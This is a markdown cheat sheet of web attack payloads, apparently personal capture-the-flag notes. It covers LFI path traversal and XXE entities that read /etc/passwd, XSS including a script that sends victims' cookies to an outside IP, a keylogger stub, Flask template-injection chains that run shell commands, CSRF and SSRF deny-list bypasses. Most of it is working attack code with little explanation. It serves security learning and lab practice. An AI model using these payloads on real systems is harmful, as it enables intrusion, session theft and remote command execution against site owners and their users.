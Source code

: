 ### LFI (local file inclusion)

If you see a parameter you can try LFI on it.
```
http://127.0.0.1/?file=page.php
```
We can not try view a file on the system.
```
http://127.0.0.1/?file=../../../../../../etc/passwd
```

### XXE (XML External Entity)

This abuses features of XML parser/Data.

Let's look at the structure.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE file SYSTEM "file.dtd">
<file>
    <to>moon</to>
    <from>cake</from>
    <heading>food</heading>
    <body>XXE attack</body>
</file> 
```
XML document starts with 
```
<?xml version="1.0" encoding="UTF-8"?> 
```
The next part is called the DTD (Document Type Definition)
This defines the elements and attributes.

- !DOCTYPE note -  Defines a root element of the document named note
- !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
- !ELEMENT to - Defines the to element to be of type "#PCDATA"
- !ELEMENT from - Defines the from element to be of type "#PCDATA"
- !ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
- !ELEMENT body - Defines the body element to be of type "#PCDATA"

We can abuse this to read a file on a system.
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
or change something
```
<!DOCTYPE replace [<!ENTITY food "cake"> ]>
 <foodInfo>
  <firstName>moon</firstName>
  <lastName>&food;</lastName>
 </foodInfo>
 ```
 
 ```
 <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<root><name>a</name><tel>a</tel><email>&xxe;</email><password>a</password></root>
```
 
 ### XSS (Cross-Site Scripting)
 
 Injection where an attacker can execute malicious scripts and execute on machine
 
 #### Stored-XSS
 
 See if we can add html tags
 
 <b>comment</b>
 
 See if we can get a popup
 ```
 <script>alert(XSS popup)</script>
 ```
 We can even get cookies or change element with javascript
 
 ```
 <script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
 <script>alert(document.cookie)</script>
 ```
 We can also steal cookies from other users.
 
 ```
 <script>window.location='http://192.168.1.10/?cookie='+document.cookie</script>
 ```
 
 ####  Reflected XSS
 ```
 <script>alert("Hello")</script>
 <script>alert(window.location.hostname)</script>
 ```
 #### DOM-Based XSS
 ```
 test" onmouseover="alert('test')
 test" onmouseover="document.body.style.backgroundColor='red'
 ```
#### Keylogger

```
 <script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script> 
```

<img SRC="test" onmouseover=alert('Hello') />
<img SRC="test" onmouseover=confirm('Hello') />
<img SRC="test" onmouseover=alert('HHelloello') />
<img SRC="test" ONMOUSEOVER=alert('HHelloello') />

### SSTI (server side template injection)

flask for instance
```
check
{{2+2}}
LFI
{{ ''.__class__.__mro__[2].__subclasses__()[40]()(/etc/passwd).read()}}
RCE
{{config.__class__.__init__.__globals__['os'].popen(<command>).read()}}
```

```
{{ ''.__class__ }}
{{ ''.__class__.__mro__ }}
{{ ''.__class__.__mro__[1] }}
{{ ''.__class__.__mro__[1].__subclasses__() }}

find the index position of subprocess.Popen

{{ ''.__class__.__mro__[1].__subclasses__()[401] }}
{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}
```

https://github.com/swisskyrepo/PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection


https://github.com/epinna/tplmap
```
./tplmap.py -u http://10.10.10.10:5000/ -d 'noot' --os-cmd "cat/ etc/passwd"
```

### CSRF (Cross Site Request Forgery)

```
<img src="http://localhost:3000/transfer?to=alice&amount=100">
```
```
pip3 install xsrfprobe
xsrfprobe -u <url>/<endpoint>
```

### JWT (JSON Web Token)

```
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c"
HEAD.PAYLOAD.SECRET
```
https://jwt.io/
https://www.base64url.com/
https://github.com/lmammino/jwt-cracker

### SSRF (Server Side Request Forgery)

Attackers can bypass a Deny List by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.
